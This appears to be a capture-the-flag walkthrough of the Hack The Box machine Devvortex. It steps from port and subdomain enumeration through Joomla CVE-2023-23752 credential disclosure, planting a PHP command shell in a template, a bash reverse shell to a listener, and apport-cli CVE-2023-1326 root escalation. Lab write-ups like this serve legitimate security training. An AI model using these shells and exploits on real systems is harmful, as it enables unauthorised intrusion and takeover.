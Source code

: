 ### Task 1
How many open TCP ports are listening on Devvortex?

We can run a nmap to scan the ports on the target ip.

``nmap -sS <target_ip>``

![alt text](image-d-14.png)

### Task 2
What subdomain is configured on the target's web server?

Navigating to the ip address on the browser we get this nice screen.

![alt text](image-d-15.png)

This seems that the hostname cannot be resolved. Lets edit the /etc/hosts file to add the ip address to be resolved to the target domain.

``sudo vim /etc/hosts``

![alt text](image-d-16.png)

Then for finding the subdomain, we can use gobuster vhost since it is often that htb machine will use name-based virtual hosting, that is when multiple names run on a single ip address.

``gobuster vhost -u https://devvortex.htb/ -w usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain``

![alt text](image-d-17.png)

We now found the subdomain ``dev.devvortex.htb``.

### Task 3

What Content Management System (CMS) is running on dev.devvortex.htb?

We need to add the previous subdomain we found on the hosts file as well so again, we use the command ``sudo vim /etc/hosts``.

For finding the CMS, we can use WhatWeb.

After navigating to ``usr/bin`` directory we can run ``whatweb -a 3 dev.devvortex.htb -v``

![alt text](image-d-18.png)

From this search, we could not find the CMS. We can try to dig further on the website by doing a gobuster dir seach to explore further endpoints. 

``gobuster dir -u http://dev.devvortex.htb -w common.txt``

From this search we found many endpoints with different status code that will be useful in the following task, one of them is the /administrator endpoint which is usually an interesting finding.

Navigating there we see a usual administrator login that reveals that the CMS used is Joomla.

![alt text](image-d-19.png)

We csn also find this  looking in the /robots.txt endpoint which is a file that contains the redirections and other info. 

![alt text](image-d-20.png)

### Task 4 

Which version of Joomla is running on the target system?

The information about Joomla version is usually on a public facing file that is located on different paths depending on the version of Joomla. It is often that the information is stores under modules diretory or under libraries but this varies. After a google search lookup we find different sources including https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website. Finally, navigating to ``http://dev.devvortex.htb/administrator/manifests/files/joomla.xml`` we find the Joomla version.

![alt text](image-d-22.png)

### Task 5

What is the 2023 CVE ID for an information disclosure vulnerability in the version of Joomla running on DevVortex?

Searching google for vulnerabilities of the specific Joomla version we found, we quickly find that the CVE-2023-23752 that affects a series of Joomla version including ours.

### Task 6

What is the lewis user's password for the CMS?

We launch metasploit ``msfconsole`` and search for the cve we found before. 

![alt text](image-d-21.png)

We then ``use 0`` to select the options, then ``set RHOSTS dev.devvortex.htb`` to set the target host and finally ``run`` to run the auxiliary. From this, we successfully get the user's password. 

![alt text](image-d-23.png)

### Task 7

We can use the credentials from previously to login as administrator on the /administrator endpoint. Navigating to System page we find that there is the template option. Under Site Templates we edit the Cassiopeia Details and Files.

![alt text](image-d-24.png)

We add this line of code ``system($_GET['cmd']);`` on the error.php file to get a reverse shell. Before navigating to  ``http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=bash -c "bash -i >%26 /dev/tcp/<local_ip>/4444 0>%261"`` we need to open a port listening for connections. We can do this by ``nc -lnvp 4444``. After navigating to that url, we obtain a shell.

![alt text](image-d-26.png)

First we spawn a proper shell so we don't get stuck onwards. 

``python3 -c 'import pty; pty.spawn("/bin/bash")'``

We can now connect to the database with the credential we found before.

``mysql -u lewis -p``
P4ntherg0t1n5r3c0n##

![alt text](image-d-27.png)

We list all tables by ``show tables;`` and then ``describe sd4fg_users;`` to see all fields for the user. There, we identfy that this is the table we are asked for by ``select username, id, password from sd4fg_users where username = 'logan';`` and see the hashed password.

![alt text](image-d-28.png)

### Task 8

From the previous task, we listed the hashed password for the logan user by using the select command. We open a new terminal and store this password on a file named ``logan.hash`` and then we can use john the ripper to crack the password so we can obtain the plain text from the hashed version. 

![alt text](image-d-29.png)

### Task 9 

Submit the flag located in the logan user's home directory.

With the password we found from the previous task, we ssh to the server with the user logan. 

![alt text](image-d-30.png)

In this user's home directory we find the user.txt that contains the user's flag.

### Task 10 

What is the full path to the binary that the lewis user can run with root privileges using sudo?

We can find the path by running ``sudo -l``.

![alt text](image-d-31.png)

### Task 11

What is the 2023 CVE ID of the privilege escalation vulnerability in the installed version of apport-cli?

With a google search, we find the id of the CVE to be CVE-2023-1326. 

### Task 12

Submit the flag located in the root user's home directory.

We start by running sudo /usr/bin/apport-cli --file-bug
![alt text](image-d-32.png)

There we press any key:

![alt text](image-d-33.png)

Then we press any key, and finally the option of view report (V) where we land in a text viewer and obtain the root shell by running ``!/bin/bash``

![alt text](image-d-34.png)

In the home directory of the root user we find the root.txt which contains the root's flag.